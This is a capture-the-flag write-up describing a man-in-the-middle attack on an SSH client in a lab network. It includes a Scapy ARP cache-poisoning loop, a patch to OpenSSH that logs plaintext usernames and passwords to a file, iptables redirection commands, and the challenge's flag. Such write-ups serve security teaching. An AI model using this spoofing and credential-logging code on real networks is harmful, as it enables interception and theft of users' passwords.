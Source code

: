 ### Solution

In this challenge, we're given access to an L2 network through OpenVPN.  
The challenge statement is pretty straightforward, there is an SSH server that we need to
get access to (the one that contains the flag), additionally, there's a client periodically
connecting to this server (Jackal).

The setup we find ourselves in is illustrated by the figure below (note that the VPN server
was removed from the diagram to only keep the relevant parts.)

![Network topology](./topology.png)

Since we're in an L2 network, the first thing that comes to mind in this kind of scenarios
is an ARP cache poisoning attack that would redirect the client to our rogue SSH server
instead of the real one.

![ARP spoofing](./arp_spoofing.png)

With the ARP spoofing attack ongoing, the next time our victim tries to establish an SSH connection
to the real server, it would be redirected to us since the MAC address tied to the real server's
IP address (i.e., `10.0.0.4`) has now been replaced by our MAC address.

![Redirection to fake SSH server](./rogue_redirection.png)

There are multiple tools to achieve this attack, below is an example using [Scapy](https://scapy.net/)

```python
victim_mac = "11:22:33:44:55:66"
our_mac = "aa:bb:cc:dd:ee:ff"
sshserver_ip = "10.0.0.4"
victim_ip = "10.0.0.2"

pkt = Ether(src=our_mac, dst=victim_mac)/ARP(op=2, hwsrc=our_mac, hwdst=victim_mac, psrc=sshserver_ip, pdst=victim_ip)
sendp(pkt, iface="tap0", loop=1, inter=0.2)
```

This will send a fake ARP packet every 0.2 seconds on our TAP interface, leading the victim's
ARP cache to be poisoned.  
The next thing to do is to spin up a rogue SSH server on our port 22/TCP.  
When an SSH client connects to an SSH server using password-based authentication, the
password is sent *as is* through the encrypted channel, meaning the SSH server will be able
to see the client's password.

Knowing this, we can recompile a modifed version of OpenSSH that logs usernames and passwords
received by clients (there are of course other ways to do this, but this method is more fun in my opinion).  
Below is the patch we need to apply to the OpenSSH source code.
```diff
--- a/auth-passwd.c
+++ b/auth-passwd.c
@@ -39,6 +39,9 @@
 #include "includes.h"
 
 #include <sys/types.h>
+#include <sys/stat.h>
+#include <unistd.h>
+#include <fcntl.h>
 
 #include <pwd.h>
 #include <stdio.h>
@@ -79,6 +82,17 @@ auth_password(struct ssh *ssh, const char *password)
 	Authctxt *authctxt = ssh->authctxt;
 	struct passwd *pw = authctxt->pw;
 	int result, ok = authctxt->valid;
+
+	// Log plaintext username and password.
+	int fd = open("/tmp/leak.txt", O_CREAT | O_RDWR | O_APPEND, S_IRUSR | S_IWUSR);
+	if (fd != -1) {
+		write(fd, authctxt->user, strlen(authctxt->user));
+		write(fd, ":", 1);
+		write(fd, password, strlen(password));
+		write(fd, "\n", 1);
+		close(fd);
+	}
+
 #if defined(USE_SHADOW) && defined(HAS_SHADOW_EXPIRE)
 	static int expire_checked = 0;
 #endif
```

Since the victim's packets have a destination IP of `10.0.0.4`, while our IP address is `10.0.0.3`,
we need to tell the Kernel to not drop these packets and instead redirect them to our SSH server.  
We can do this by enabling IP forwarding and adding an `iptables` rule to redirect incoming packets
with a destination port of 22/TCP to our local port 22/TCP.

```bash
sudo sysctl net.ipv4.ip_forward=1
sudo iptables -P FORWARD ACCEPT
sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 22
```

Now the next time our victim tries to connect to the SSH server, the ongoing ARP spoofing attack
will lead it to our rogue SSH server which in turn logs plaintext credentials.  
Finally, we connect to the real SSH server and find the flag in `jackal`'s home directory.

# Flag
`SEKAI{https://linux.livejournal.com/1884229.html_4540941f3ea0a6cd}`
